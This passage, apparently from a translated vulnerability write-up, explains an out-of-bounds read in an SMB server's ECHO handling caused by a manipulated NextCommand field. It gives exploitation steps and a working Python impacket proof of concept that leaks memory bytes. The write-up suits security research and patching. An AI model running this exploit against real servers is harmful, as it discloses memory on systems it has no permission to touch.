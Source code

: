 ```

validate_credit:
	// [snip] irrelevant credit check

	return 0;
}

```
导致漏洞的功能。
如您所见，对于 SMB_WRITE，我们可以通过设置 hdr->Length 和 hdr->NextCommand 变量来设置任意的数据包大小。至于 SMB_ECHO，我们只需将 hdr->NextCommand 设置为预期值，而无需实际填写 smb2_Echo_req->reserved：

```
struct smb2_echo_req {
	struct smb2_hdr hdr;
	__le16 StructureSize;	/* Must be 4 */
	__u16  Reserved;
} __packed;

```
smb2_echo_req 结构。

### Exploitation
#### 操作


使用 SMB_ECHO 泄漏 2 个字节：
1. 设置 smb2_echo_req->StructureSize = p16(4)
2. 设置 smb2_echo_req->hdr.NextCommand = sizeof(smb2_echo_req->hdr) + smb2_echo_req->StructureSize
3. 发送请求
4. 读取echo响应，最后 2 个字节为 OOB 读取。


```
#!/usr/bin/env python3

from impacket import smb3
from pwn import p64, p32, p16, p8



def main():
    print("[*] connecting to SMB server...")
    conn = smb3.SMB3("127.0.0.1", "127.0.0.1", sess_port=445)

    packet = smb3.SMB3Packet()
    packet['Command'] = smb3.SMB2_ECHO
    packet["Data"] = p16(0x4)
    packet["NextCommand"] = 64+4

    print("[*] sending OOB read...")
    conn.sendSMB(packet)

    print("[*] reading response...")
    rsp = conn.recvSMB().rawData
    print(rsp)



if __name__ == "__main__":
    main()

```
